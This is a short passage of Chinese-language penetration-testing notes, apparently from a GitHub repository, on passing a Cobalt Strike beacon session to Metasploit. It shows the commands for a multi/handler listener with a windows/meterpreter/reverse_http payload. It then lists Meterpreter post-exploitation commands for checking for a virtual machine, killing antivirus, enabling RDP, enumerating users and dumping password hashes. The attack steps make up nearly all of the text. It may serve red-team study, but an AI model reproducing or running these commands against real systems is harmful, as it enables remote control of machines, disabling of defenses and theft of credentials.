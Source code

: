      

  2. msf中开启监听

     ```shell
     use exploit/multi/handler
     set payload windows/meterpreter/reverse_http
     set lhost 192.168.xx.xx   #本机ip
     set lport xxx #本机端口
     ```

     

  3. 在cs的beacon中右键添加会话或者spawn，选择刚刚建立的reverse_http

     <img src="images/image-20201119151901327.png" alt="image-20201119151901327" style="zoom:50%;" />

  





+  使用msf进行

  > msf会话就类似linux的操作就比较舒服



​		**部分命令**

```shell
		sysinfo																					#系统信息
		run post/windows/gather/checkvm									#检查是否虚拟机
		run post/windows/manage/killav									#关闭杀软
		run post/windows/manage/enable_rdp							#开3389
		run post/windows/gather/enum_logged_on_users    #列举当前目标机有多少用户登录
		run hashdump																		#获取账户密码   --> 本地环境试验失败
		
```
